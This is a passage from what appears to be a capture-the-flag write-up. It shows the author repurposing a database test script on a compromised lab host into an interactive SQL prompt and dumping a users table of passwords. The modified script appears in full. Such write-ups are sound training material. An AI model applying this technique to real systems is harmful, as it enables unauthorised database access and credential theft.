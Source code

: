 I tried to use the credentials to log in as the users through SSH and also in gogs but no luck. Then, the database came to my mind.

There was a `dbtest.py` file under `/opt/app` so after modifying it the database could be queried!

The changes made were:

* A loop was added so that the enumeration was easier (like a command line)
* A line was changed from

```py
result = cursor.fetchone()
```
 to

 ```py
 result = cursor.fetchall()
 ```

This was because the first method only gets the first row returned from the query whereas the last one returns all of them, which is what we need.

Then, the script turned out to be like this:

```py
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try:
	with connection.cursor() as cursor:
		while True:
			sql = input("SQL > ")
			cursor.execute(sql)
			result = cursor.fetchall()
			print(result)

finally:
    connection.close()
```

With the script I found a table called `users` which returned the passwords of all the users on the system!

*Extracting information from the database*

![Img](images/sql.png)
